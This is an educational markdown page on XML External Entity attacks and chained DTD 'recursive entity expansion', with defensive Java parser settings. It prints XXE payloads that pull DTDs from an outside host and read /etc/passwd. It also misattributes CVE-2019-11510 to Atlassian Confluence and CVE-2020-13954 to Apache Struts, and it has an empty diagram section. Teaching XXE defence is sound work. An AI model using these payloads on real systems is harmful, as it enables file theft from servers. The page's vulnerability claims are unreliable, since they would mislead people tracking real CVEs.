

## XML External Entity (XXE) Attacks Overview

XML External Entity (XXE) attacks are a type of security vulnerability that occurs when an application parses untrusted XML input without proper validation. This allows attackers to inject malicious XML content that can lead to various security issues such as data exfiltration, denial of service, and remote code execution. One particularly dangerous variant of XXE attacks is the recursive entity expansion attack, which leverages the ability to define entities that reference other external resources, leading to a chain of recursive expansions.

### What is an XML Entity?

An XML entity is a named unit of content that can be referenced within an XML document. Entities are defined using the `<!ENTITY>` declaration. There are two types of entities:

1. **Internal Entities**: Defined within the XML document itself.
2. **External Entities**: Refer to external resources, such as files or URLs.

### Why Are External Entities Dangerous?

External entities are particularly dangerous because they allow an attacker to reference arbitrary resources outside the control of the application. This can lead to unauthorized access to sensitive information or even remote code execution if the application processes the entity content inappropriately.

### How Does Recursive Entity Expansion Work?

Recursive entity expansion is a technique where an external entity references another external entity, creating a chain of recursive expansions. This can be used to bypass certain protections and achieve more complex attacks.

#### Example of Recursive Entity Expansion

Let's break down the example provided in the lecture transcript:

1. **First DTD File (`first.dtd`)**:
    ```xml
    <!ENTITY % xxe SYSTEM "http://hackersera.com/second.dtd">
    %xxe;
    ```

2. **Second DTD File (`second.dtd`)**:
    ```xml
    <!ENTITY % xxe SYSTEM "http://hackersera.com/third.dtd">
    %xxe;
    ```

3. **Third DTD File (`third.dtd`)**:
    ```xml
    <!ENTITY % xxe SYSTEM "http://hackersera.com/fourth.dtd">
    %xxe;
    ```

In this example, the first DTD file references the second DTD file, which in turn references the third DTD file, and so on. This creates a chain of recursive expansions.

### Real-World Examples and Recent Breaches

One notable real-world example of an XXE attack is the CVE-2019-11510, which affected the Atlassian Confluence Server and Data Center products. This vulnerability allowed attackers to perform XXE attacks, leading to potential data exfiltration and remote code execution.

Another example is the CVE-2020-13954, which affected the Apache Struts framework. This vulnerability allowed attackers to perform XXE attacks through the `Content-Type` header, leading to potential data exfiltration and remote code execution.

### Complete Code Example

Let's walk through a complete example of how an attacker might exploit a recursive entity expansion attack.

#### Vulnerable XML Input

```xml
<?xml version="1.0"?>
<!DOCTYPE root [
  <!ENTITY % xxe SYSTEM "http://hackersera.com/first.dtd">
  %xxe;
]>
<root>
  <data>&entity;</data>
</root>
```

#### First DTD File (`first.dtd`)

```xml
<!ENTITY % xxe SYSTEM "http://hackersera.com/second.dtd">
%xxe;
```

#### Second DTD File (`second.dtd`)

```xml
<!ENTITY % xxe SYSTEM "http://hackersera.com/third.dtd">
%xxe;
```

#### Third DTD File (`third.dtd`)

```xml
<!ENTITY % xxe SYSTEM "http://hackersera.com/fourth.dtd">
%xxe;
```

#### Fourth DTD File (`fourth.dtd`)

```xml
<!ENTITY entity SYSTEM "file:///etc/passwd">
```

### Mermaid Diagrams

To better visualize the recursive entity expansion process, we can use a mermaid diagram:



### Common Pitfalls

1. **Improper Validation**: Not validating XML input can lead to XXE attacks.
2. **Disabling External Entity Processing**: Some parsers allow disabling external entity processing, but this must be explicitly configured.
3. **Complexity of Recursive Expansions**: The complexity of recursive expansions can make it difficult to detect and mitigate these attacks.

### How to Prevent / Defend Against XXE Attacks

#### Detection

1. **Logging and Monitoring**: Implement logging and monitoring to detect unusual XML input patterns.
2. **Security Tools**: Use security tools like static analysis and dynamic analysis to identify potential XXE vulnerabilities.

#### Prevention

1. **Disable External Entity Expansion**: Configure XML parsers to disable external entity expansion.
2. **Input Validation**: Validate XML input to ensure it does not contain malicious content.
3. **Secure Coding Practices**: Follow secure coding practices to avoid common pitfalls.

#### Secure-Coding Fixes

**Vulnerable Code**

```java
DocumentBuilderFactory dbFactory = DocumentBuilderFactory.newInstance();
DocumentBuilder dBuilder = dbFactory.newDocumentBuilder();
Document doc = dBuilder.parse(new InputSource(new StringReader(xmlInput)));
```

**Fixed Code**

```java
DocumentBuilderFactory dbFactory = DocumentBuilderFactory.newInstance();
dbFactory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
dbFactory.setFeature("http://xml.org/sax/features/external-general-entities", false);
dbFactory.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
dbFactory.setFeature("http://apache.org/xml/features/nonvalidating/load-external-dtd", false);
DocumentBuilder dBuilder = dbFactory.newDocumentBuilder();
Document doc = dBuilder.parse(new InputSource(new StringReader(xmlInput)));
```

### Hands-On Labs

For hands-on practice with XXE attacks, consider the following labs:

- **PortSwigger Web Security Academy**: Offers detailed labs on XXE attacks.
- **OWASP Juice Shop**: Provides a vulnerable web application for practicing XXE attacks.
- **DVWA (Damn Vulnerable Web Application)**: Contains several XXE vulnerabilities for testing and learning.

By thoroughly understanding the concepts, mechanisms, and preventive measures, you can effectively defend against XXE attacks and ensure the security of your applications.

---
<!-- nav -->
[[API Security/22-Offensive XXE Exploitation/18-XML Recursive Entity Expansion Attack/00-Overview|Overview]] | [[02-XML External Entity (XXE) Attacks Recursive Entity Expansion|XML External Entity (XXE) Attacks Recursive Entity Expansion]]
